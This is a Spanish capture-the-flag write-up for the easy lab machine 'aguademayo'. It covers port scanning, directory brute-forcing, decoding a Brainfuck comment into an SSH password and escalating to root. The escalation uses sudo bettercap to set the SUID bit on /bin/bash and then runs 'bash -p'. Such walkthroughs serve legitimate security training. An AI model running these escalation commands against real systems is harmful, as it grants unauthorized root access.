






# Máquina aguademayo

---

Dificultad -> Fácil

---

Empezamos con un nmap para ver los puertos abiertos

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

Vemos un apache2 en el puerto 80 así que entro desde el navegador donde veo la página default de apache debian

Mirando un poco el codigo fuente con `Ctrl+U`, encuentro abajo del todo un comentario:

 

Tiene pinta de codigo en BrainFuck, busco en internet algun compilador online ([BFCompiler](https://www.tutorialspoint.com/compilers/online-brainfk-compiler.htm)), ejecuto el codigo y me devuelve `bebeaguaqueessano`, me lo guardo para luego.

Ahora, con gobuster busco directorios o archivos en la web:

```shell
gobuster dir -u http://172.17.0.2/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,php,html -t 64
```

```shell
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/server-status        (Status: 403) [Size: 275]
```

Me encuentra `/images`, aquí encuentro una imagen



Descargo la imágen y busco archivos ocultos con stenografía

```shell
steghide extract -sf agua_ssh.jpg
```

Pruebo usando `bebeaguaqueessano` como passcode y intento crackearlo:

```shell
stegseek --crack agua_ssh.jpg /usr/share/wordlists/rockyou.txt
```

También miro en los metadatos con `exiftool agua_ssh.jpg` pero no consigo nada


Viendo que el archivo se llama agua_ssh, pruebo a conectarme con las credenciales `agua:bebeaguaqueessano`



Y consigo entrar :), ahora hago un `sudo -l` y veo que puedo ejecutar bettercap con root:



Buscando un poco encuentro como ejecutar comandos:

```shell
sudo bettercap -eval "! whoami"
```



Pero si intento ejecutar directamente `/bin/bash` me da un error así que doy permisos SUID de bash a mi usuario

```shell
sudo bettercap -eval "! chmod u+s /bin/bash; exit"
```



Se ejecuta correctamente, ahora, simplemente ejecuto `bash` con `-p` para que tenga en cuenta los permisos SUID:



Y con esto consigo root :)


